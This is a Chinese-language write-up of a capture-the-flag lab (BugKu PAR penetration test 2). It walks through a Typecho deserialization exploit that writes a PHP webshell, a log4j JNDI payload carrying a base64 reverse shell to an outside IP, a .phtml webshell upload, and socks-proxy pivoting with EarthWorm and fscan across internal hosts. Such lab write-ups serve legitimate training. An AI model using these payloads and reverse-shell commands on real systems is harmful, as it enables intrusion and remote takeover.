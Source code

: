 # BugKu-PAR-渗透测试2

dirsearch扫描发现.git源码泄露

使用githack下载下来，查看文件发现是**Typecho，Typecho存在一个反序列化漏洞可导致命令执行**

payload

```bash
<?php
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();

    public function __construct()
    {
        $this->_params['screenName'] = "echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php";
        $this->_filter[0] = 'system';
    }
}

class Typecho_Feed
{
    const RSS2 = 'RSS 2.0';
    /** 定义ATOM 1.0类型 */
    const ATOM1 = 'ATOM 1.0';
    /** 定义RSS时间格式 */
    const DATE_RFC822 = 'r';
    /** 定义ATOM时间格式 */
    const DATE_W3CDTF = 'c';
    /** 定义行结束符 */
    const EOL = "\n";
    private $_type;
    private $_items = array();
    public $dateFormat;

    public function __construct()
    {
        $this->_type = self::RSS2;
        $item['link'] = '1';
        $item['title'] = '2';
        $item['date'] = 1507720298;
        $item['author'] = new Typecho_Request();
        $item['category'] = array(new Typecho_Request());

        $this->_items[0] = $item;
    }
}

$x = new Typecho_Feed();
$a = array(
    'host' => 'localhost',
    'user' => 'xxxxxx',
    'charset' => 'utf8',
    'port' => '3306',
    'database' => 'typecho',
    'adapter' => $x,
    'prefix' => 'typecho_'
);
echo urlencode(base64_encode(serialize($a)));
?>
```

base64写马，蚁剑连接在根目录发现flag，在web目录下还存在admin.ini.php文件，里面存放着数据库的账号和密码，使用蚁剑插件连接在数据库中发现flag

开始打内网，查看/etc/hosts确定下一目标地址

```bash
cat /etc/hosts
```

通过蚁剑上传ew搭建代理

kali执行：(在本地起了一个端口为1010的socks5代理)

```bash
 ./ew_for_linux64 -s rcsocks -l 1010 -e 7777
```

蚁剑执行：

```bash
 ./ew_for_linux64 -s rssocks -d kali地址 -e 8888
```

连接成功后，kali那边会回显ok

利用蚁剑上传fscan扫描内网并将结果保存到a.txt中

```bash
fscan -h 内网地址 > a.txt
```

扫到一个web站点，访问是一个登录框，点击登录时会在返回头中提示源码文件名

下载源码解压可以看到是log4j，那就很明显了就是打log4j

使用vps起一个jndi服务

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80OS4yMzQuNTYuMjAwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}" -A "49.234.56.200"
```

那段base64编码内网就是要执行的反弹shell命令，把反弹地址和端口换成自己的并开启监听

之后在那台存在log4j的靶机上执行

```bash
${jndi:rmi://119.91.32.206:1099/fv304f}
```

`rmi://119.91.32.206:1099/fv304f` 要根据你的jndi服务来填写

执行成功后会弹回来一个shell是root权限，在起根目录和root目录下都存在flag文件，在根目录下还存在一个start.sh文件，查看该文件可以发现是把flag写到了js文件中，查看js文件得到flag

接着在这台log4j的机器上执行cat /etc/hosts寻找下一目标地址

```bash
cat /etc/hosts
```

也可以通过 ip add等方法查看ip地址

确定好下一目标地址之后，就要设置代理了，kali开启web服务

```bash
python3 -m http.server
```

将ew放到这个临时web目录下

在目标机器上使用wget下载ew

```bash
wget http://0.0.0.0:8000/ew_for_linux64
```

为了信息收集，在把fscan下载了

```bash
wget http://0.0.0.0:8000/fscan_amd64
```

接下来设置代理

kali执行：

```bash
 ./ew_for_linux64 -s rcsocks -l 1000 -e 8888
```

在本地的1000端口上起了个socks5代理

靶机执行：

```bash
./ew_for_linux64 -s rssocks -d kali地址 -e 8888
```

执行成功后kali那边会回显ok，此时代理已经搭建好，下面就利用fscan信息收集确定好攻击目标

```bash
./fscan_amd64 -h 目标地址段
```

扫到了192.168.1.3，火狐浏览器设置代理，此时的代理就不是第一个ew代理了，而是第二个也就是端口为1000的代理地址

访问192.168.1.3，开启了web服务，里面的功能就类似于你输入一个github仓库地址，他就会给你clone下来，然后你可以访问他clone后的文件

在clone仓库的过程中也会clone仓库中的文件，也不免可以猜到在仓库里放置一个一句话木马，在它clone后去访问，但是正常的.php后缀是不会执行，经过测试后发现.phtml是可以被执行的

在仓库中编写一个.phtml后缀的一句话木马文件，输入仓库地址，他clone后直接访问就getshell，在根目录发现flag

接下来还是一样的套路查看网卡信息，kali开启web服务，靶机下载fscan扫描，下载ew设置代理，需要注意的是代理地址记得要改变否则会被占用，就会代理搭建失败

fccan扫描

```bash
./fscan_amd64 -h 目标地址段
```

设置代理

kali执行：

```bash
 ./ew_for_linux64 -s rcsocks -l 1040 -e 9999
```

此时的代理端口就是1040

靶机执行

```bash
./ew_for_linux64 -s rssocks -d kali地址 -e 9999
```

最后两个flag给了两个提示分别是`guest`和 `/` ，通过fscan扫描也可以发现内网有台主机开放了21ftp服务

账号密码都是guest，ls发现flag，get flag下载下得到第七个flag

切换到跟目录 `cd /` 下载根目录中的最后一个flag

至此flag全部拿到！